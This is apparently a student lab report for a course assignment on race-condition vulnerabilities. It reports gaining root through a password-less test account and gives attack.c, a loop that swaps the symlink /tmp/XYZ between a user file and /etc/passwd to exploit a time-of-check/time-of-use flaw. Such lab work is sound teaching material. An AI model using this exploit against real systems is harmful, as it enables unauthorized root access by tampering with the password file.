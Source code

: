 -------------------

## 6 Race Condition Vulnerability

### 6.3 Choosing Our Target [5 Marks]

* I can log into the test account without typing a password. The root privilege is obtained. 

![1586174894305](assets/1586174894305.png)

### 6.4 Launching the Race Condition Attack [4 Marks]

* Code of `attack.c`

  ```c
  #include <unistd.h>
  
  int main(){
  	while(1){
  		unlink("/tmp/XYZ");
  		symlink("/home/seed/Desktop/CS4293/assignment/Experiment/assignment2/task6/myfile", "/tmp/XYZ");
  		usleep(10000);
  		unlink("/tmp/XYZ");
  		symlink("/etc/passwd", "/tmp/XYZ");
  		usleep(10000);
  	}
  	return 0;
  }
  ```

* Result: Notice that we should run executable `attack` before the `attack.sh`

  ![1586178552086](assets/1586178552086.png)
